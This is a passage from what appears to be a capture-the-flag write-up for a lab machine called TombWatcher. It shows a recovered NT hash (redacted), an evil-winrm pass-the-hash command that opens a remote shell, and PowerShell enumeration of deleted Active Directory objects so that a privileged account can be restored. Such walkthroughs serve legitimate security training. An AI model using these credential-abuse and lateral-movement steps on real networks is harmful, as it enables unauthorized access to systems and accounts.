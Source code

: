 ```bash
[*] Restoring the old Key Credentials for 'john'
[*] Successfully restored the old Key Credentials for 'john'
[*] NT hash for 'john': [REDACTED]
```

Success! We now have Credentials for `John`! `John`:`[REDACTED]`

We can `winrm` as he is a member of `Remote Management Users`

**Command**
```bash
evil-winrm -i $DOMAIN -u $USER -H $HASH
```

**Output**
```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\john\Documents>
```

Just like that, we have User!

# Root
Given the box name is `TombWatcher` let's look for `Deleted Objects` using the `Active-Directory` powershell module.

**Command**
```powershell
Get-ADObject -Filter {isDeleted -eq $True -and name -ne "Deleted Objects"} -IncludeDeletedObjects -Properties *
```

**Output**
```html
<SNIP>
DistinguishedName               : CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb
</SNIP>
```

> Remember to find the `LASTEST` deleted object as the other objects will have had their permissions revoked. I learned this the hard way as I restored the wrong object and was banging my head against the wall because of it.
{:.info}

We can find the object `cert_admin` let's bring it back to life!
